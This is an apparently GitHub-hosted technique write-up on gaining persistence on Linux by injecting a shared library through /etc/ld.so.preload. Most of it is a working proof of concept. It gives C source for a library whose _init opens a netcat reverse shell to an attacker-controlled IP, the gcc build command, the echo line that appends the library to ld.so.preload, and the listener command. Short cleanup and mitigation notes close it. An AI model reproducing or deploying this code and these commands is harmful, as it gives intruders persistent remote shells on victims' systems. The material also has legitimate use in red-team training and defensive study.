 # Library Injection via `/etc/ld.so.preload` File

This technique exploits the `/etc/ld.so.preload` file on Linux systems to inject custom libraries for code execution and persistence across reboots.

---

### Description

This attack leverages the `/etc/ld.so.preload` file to inject a shared library that gets loaded with every dynamically linked process. By adding a custom library path to `/etc/ld.so.preload`, an attacker can execute arbitrary code whenever any new process is started.

- **How it works**: The dynamic linker (`ld.so`) checks `/etc/ld.so.preload` during system startup and loads any libraries listed there before the standard libraries. This allows attackers to run malicious code with the privileges of the calling process.

- **Impact**: Attackers with escalated privileges can use this method for privilege escalation, data exfiltration, or to silently execute malicious activities. This persistence method survives system reboots and user logins as long as the malicious library remains in the specified path and `/etc/ld.so.preload` is not modified.

---

## Detailed Proof of Concept (PoC)

Let’s break down the steps to exploit this technique, including preparation, library creation, injection into `/etc/ld.so.preload`, and execution.

### Step 1: Understanding the Exploit

- **Objective**: Achieve persistence on a Linux system by injecting a malicious shared library using `/etc/ld.so.preload`.

- **Mechanism**: The dynamic linker (`ld.so`) checks `/etc/ld.so.preload` during system startup and loads any libraries listed there. An attacker can modify this file to execute arbitrary code when any process starts.

---

### Step 2: Creating a Malicious Shared Library

First, create a custom shared library that will be injected into processes. This library can contain malicious code, such as a reverse shell, keylogger, or other persistent malware.

#### Code for a Malicious Shared Library (Example: Reverse Shell)

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void _init() {
    // The reverse shell payload: connects to an attacker-controlled IP and port
    const char *ip = "attacker_ip_here";  // Replace with attacker's IP
    const int port = 4444;                // Replace with desired port

    char command[128];
    snprintf(command, sizeof(command), "nc %s %d -e /bin/bash", ip, port);

    // Execute the reverse shell
    system(command);
}

Steps to compile the malicious shared library:

Save the above code into a file called reverse_shell.c.
Compile it into a shared library:
```bash
gcc -shared -fPIC -o reverse_shell.so reverse_shell.c
```
This creates the reverse_shell.so shared library, which will execute a reverse shell to the attacker's IP and port when any process is started.

### Step 3: Modifying /etc/ld.so.preload
Once the malicious shared library is compiled, the next step is to modify the /etc/ld.so.preload file to ensure that the malicious library is loaded system-wide whenever a process starts.

#### 1. Check if /etc/ld.so.preload exists:

If the file already exists, you'll append your library path to it. If it doesn't exist, you’ll need to create it.

#### 2. Gain root access:

Since modifying /etc/ld.so.preload requires root privileges, you’ll need to escalate privileges to root if not already done. This could be through an existing vulnerability, misconfiguration, or a privilege escalation exploit.

#### 3. Modify /etc/ld.so.preload:

Assuming you've gained root access, you can modify /etc/ld.so.preload by appending the path of the malicious shared library:

echo "/path/to/reverse_shell.so" >> /etc/ld.so.preload
Make sure to replace /path/to/reverse_shell.so with the actual path to your malicious shared library.

### Step 4: Test the Exploit
At this point, the malicious library is set to be loaded every time any dynamically linked process starts. To test the exploit, simply start a new process. For example, try running:
```bash
ls
```
This will run the ls command, but because of the /etc/ld.so.preload file, the reverse shell library will be loaded first, and it will attempt to connect to the attacker's machine.

### Step 5: Set up Listener on Attacker's Machine
To receive the reverse shell, you need to set up a listener on the attacker's machine using Netcat (nc). On your attacker's machine:
```bash
nc -lvp 4444
```
Make sure that port 4444 (or whatever port you specified) is open and listening for connections.

### Step 6: Persistent Execution
Since /etc/ld.so.preload is applied system-wide, this technique will survive reboots and user logins as long as the malicious library remains in the specified path and /etc/ld.so.preload is not modified. This gives the attacker full persistence on the system.

### Step 7: Cleanup and Mitigation
To remove the malicious payload, you would simply need to:

Remove the entry from /etc/ld.so.preload:
```bash
sed -i '/reverse_shell.so/d' /etc/ld.so.preload
```
Delete the malicious shared library:
```bash
rm /path/to/reverse_shell.so
```
Restart the system or relaunch processes to ensure the payload is no longer injected.

# Additional Considerations and Mitigation
### Security Measures:

Restrict write access to /etc/ld.so.preload and other critical system files.
Use tools like SELinux, AppArmor, or other mandatory access control (MAC) systems to limit the impact of privilege escalation attacks.
Ensure that only trusted users can modify the system's library paths and execute dynamic binaries.
Regularly audit the /etc/ld.so.preload file to ensure there are no unauthorized entries.
Monitoring:

Set up monitoring for system changes to /etc/ld.so.preload to detect tampering.
Monitor network activity, particularly outgoing connections to detect suspicious reverse shell connections.

